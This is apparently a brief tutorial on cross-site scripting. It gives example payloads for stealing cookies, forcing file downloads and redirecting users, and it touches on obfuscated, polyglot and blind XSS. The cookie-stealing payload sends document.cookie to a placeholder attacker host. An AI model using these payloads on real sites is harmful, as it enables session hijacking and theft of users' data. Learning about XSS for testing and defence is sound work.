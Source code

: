 # 1. Cross-Site Scripting XSS

## 1.1 What are they?

Client-side attacks that allow an attacker to create specific web requests and inject malicious code into a response.

### 1.2 Basic types of XSS attacks

**Cookie Stealing XSS:**

```js
<script>document.write('<img src="http://our_ip/get.php?cookie=' %2B document.cookie %2B '"/>');</script>
```

**Forcing the Download of a File:**

```js
<script>var link = document.createElement('a'); link.href='link_to_the_file_to_download';link.download = "; document.body.appendChild(link);link.click();</script>
```

**Redirecting User:**
```js
<script>window.location = "link_to_the_redirect";</script>
```

## 2. Obfuscated/Polyglot XSS Payloads

Nowadays web apps usually have security measures such as WAFs or they block certain characters.

A simple example is checking and blocking `<script>` tags.

For this attackers have to be creative and use different anti-measures such as obfuscating the payload.

### 2.1 Polyglot Payloads

Polyglot payloads means taking many different types of payloads and obfuscation techniques and compiling them into one attack - basically chaining them.

## 3. Blind XSS

It is when the execution of a stored XSS payload is not visible to the attacker/user, but only to an administrator or back-end.

In order to help us validate the vulnerability we can use `XSS Hunter` which takes a screenshot of the victim's screen when the JS payload is executed and sends that back to the XSSHunters site, and it will send us an alert that the payload has been executed.

## 4. DOM Based XSS



